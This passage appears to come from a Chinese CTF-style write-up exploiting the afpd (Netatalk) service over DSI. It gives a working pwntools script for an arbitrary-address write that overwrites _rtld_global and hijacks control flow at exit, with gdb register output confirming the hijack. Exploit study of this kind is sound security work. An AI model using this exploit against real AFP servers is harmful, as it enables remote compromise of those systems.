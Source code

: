 故只要有一次任意地址写大小0x600字节的能力，就能控制流劫持并控制参数。并且在此处控制流劫持时，参数为_dl_load_lock的地址，所以如果是字符串参数，直接打到_dl_load_lock及之后的内存中即可，尝试打一次0xdeadbeef，本地为了方便直接复用之前爆破出的地址，手动算出与libc的偏移，libc与_rtld_global的偏移：


```python
from pwn import *
context(endian='little')

ip   = "127.0.0.1"
port = 5566

def gen_dsi(data):
    dsi  = b'\x00\x04\x00\x01'
    dsi += p32(0)
    dsi += p32(len(data),endian='big')
    dsi += p32(0)
    dsi += data
    return dsi

def aaw(io,addr,data):
    payload  = b'\x01'+ p8(0x18)+ b'a'*0x10 + p64(addr)
    io.send(gen_dsi(payload))
    io.recv()
    io.send(gen_dsi(data))

leak_addr  = 0x7f863b8f6000
libc_addr  = leak_addr - 0xeb1000
rtld       = libc_addr + 0xed4060

io = remote(ip,port)
cmd = b'xuanxuan'
aaw(io,rtld+2312,cmd.ljust(0x5f8,b'\x00')+p64(0xdeadbeef))
```

虽然题目说是0秒超时，但gdb进入子进程后并没有直接触发控制流劫持，所以手动ctrl+c将进程停止：

```c
gef➤  set follow-fork-mode child
gef➤  c
Continuing.
[New process 3871]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
^C
Thread 2.1 "afpd" received signal SIGINT, Interrupt.
[Switching to Thread 0x7f863b8e7740 (LWP 3871)]
```

接下来是凯韬教我的大招，使用p，手动在gdb命令行里调函数，成功触发控制流劫持，并控制rdi指向的内容：

```c
gef➤  p exit(0)

Thread 2.1 "afpd" received signal SIGALRM, Alarm clock.

Thread 2.1 "afpd" received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007f863b919060  →  0x00007f863b91a170  →  0x0000563fcc879000  →   jg 0x563fcc879047
$rbx   : 0x00007f863b919060  →  0x00007f863b91a170  →  0x0000563fcc879000  →   jg 0x563fcc879047
$rcx   : 0x1               
$rdx   : 0x00007f863b6ffb40  →  <_dl_fini+0> push rbp
$rsp   : 0x00007ffce77c8738  →  0x00007f863b6ffbaf  →  <_dl_fini+111> mov edx, DWORD PTR [rbx+0x8]
$rbp   : 0x00007ffce77c8790  →  0x0000000000000000
$rsi   : 0x0               
$rdi   : 0x00007f863b919968  →  "xuanxuan"
```